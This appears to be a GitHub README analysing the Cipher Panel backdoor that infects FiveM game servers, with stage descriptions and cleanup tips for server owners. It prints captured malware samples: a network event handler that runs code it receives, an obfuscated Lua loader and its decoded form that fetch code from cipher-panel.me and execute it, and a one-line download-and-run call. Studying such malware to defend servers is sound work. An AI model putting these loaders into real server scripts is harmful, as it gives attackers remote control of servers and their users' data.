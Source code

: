 # MaliciousPanel
Cipher Panel Research (To clarify I have 0 connections to the group behind Cipher Panel, I'm merely researching this malicious panel for Cfx and server owners)

With respect to @ericstolly's research, I have dug up more information and together with his research this repo has been created. 
Mainly for information and educational purposes for server owners to figure out how what and where.

The several stages will be found in the files of this repo, there's also tools available (for now very limited) and a file which they infected. Don't worry it's only effective whenever you drop this file in the server files at the right position.

Original Infection URL:
`https://cipher-panel.me/_i/i.php?to=0`
From this it goes through the several stages

Explaination of the several stages:

*Stage 1*: This stage is the "exploit" stage, just depends on what you want to name it. 
In this stage they are gaining entry into your FiveM server and talking with their panel. 

*Stage 2*: This stage is the Payload phase, this is when they're re-writing your sessionmanager files and build a control base for further spreading and infection of other resources.

*Stage 3*: This is the spread phase, this is mainly a bridge between phase 2 and phase 4, this is where local functions are added throughout several scripts and where the fxmanifests are edited to use / run MySQL statements assumably for gaining access to the IP's and user data. But most these days use other mysql scripts so it's pretty obvious when there is a `server_script {'@mysql-async/lib/MySQL.lua'}` added. 

*Stage 4*: This is the control stage, this is where the panel sends out triggers to the several listening functions, how they do it? Read in phase 4 docs.
In the basis they're performing simple HTTP requests to their panel. Whenever the panel sends out a call to action, the response in the web body changes and the functions reading the web body will then distribute the events either client or server sided. Also txAdmin is victim of this, disabling the whitelist for example or bypassing a txAdmin ban.

**Tips for now**:
- Use a other mysql script
- Use a 3rd Party script for your bans and whitelist
- Disable their website in the hosts file (in case of Windows)
- Re-install the fresh sessionmanager
- Use notepad++ to search for any obfuscated functions with the information that will be available per phase documentation

**Traces Found**:
```
RegisterNetEvent('helpCode')

AddEventHandler('helpCode', function(id)
	local help = assert(load(id))
	help()
end)
```
Code from stage2 or stage3 will be send via a event and executed here. 

In rconlog we found some obfuscated code, which is the same as the stage2 code but a different page which still these days is unknown what it's contents are or how to gain the contents of this page. Only thing known is that it's in the server sided and downloads the body of the page. 
https://cipher-panel.me/_i/r.php?to=0

Code:
```
local BaoWmVjtyB = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local CKGzkhSwYw = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function uGeRrdKRtK()
	JJcQCUzzCK = ''
	for id,it in pairs(CKGzkhSwYw) do
		JJcQCUzzCK = JJcQCUzzCK..it
	end
	return (JJcQCUzzCK:gsub('..', function (luwOyroAEjA)
		return string.char(BaoWmVjtyB[4](luwOyroAEjA, 16))
	end))
end

BaoWmVjtyB[BaoWmVjtyB[4]('1')](uGeRrdKRtK(), function (e, jKlDPYMVkD)
	local YlEkQSXGlZ = BaoWmVjtyB[BaoWmVjtyB[4]('2')](BaoWmVjtyB[BaoWmVjtyB[4]('3')](jKlDPYMVkD))
	if (jKlDPYMVkD == nil) then return end
	YlEkQSXGlZ()
end)
```
Doing our magical de-obfuscating and using the dehex function we can see that it downloads (just like the rest) the contents of the page r.php and executes it. The methods are the same as in the sessionmanager host_lock.lua file.
De-Obfuscated Code:
```
local VarArray = {
	_G['PerformHttpRequest'],
	_G['assert'],
	_G['load'],
	_G['tonumber']
}

local HEXArray = {
	'68', '74', '74', '70', '73', '3a', '2f', '2f', '63', '69', '70', '68', '65', '72',
	'2d', '70', '61', '6e', '65', '6c', '2e', '6d', '65', '2f', '5f', '69', '2f', '72',
	'2e', '70', '68', '70', '3f', '74', '6f', '3d', '30'
}

function Func1()
	String = ''
	for id,it in pairs(HEXArray) do
		String = String..it
	end
	return (String:gsub('..', function (var1)
		return string.char(VarArray[4](var1, 16))
	end))
end

PerformHttpRequest(Func1(), function (e, responseBody)
	local Payload = assert((load(responseBody)))
	if (responseBody == nil) then return end
	Payload()
end)
```
Simple CURL request to https://cipher-panel.me/_i/r.php?to=0 (Which is the HEX Array but in plain text), we get a different result.

```
PerformHttpRequest('https://cipher-panel.me/_i/v2_/stage3?to=0', function (e, d) pcall(function() assert(load(d))() end) end)
```
It sends us to this page but not the actual stage3.php, there seems to be a difference in that. 

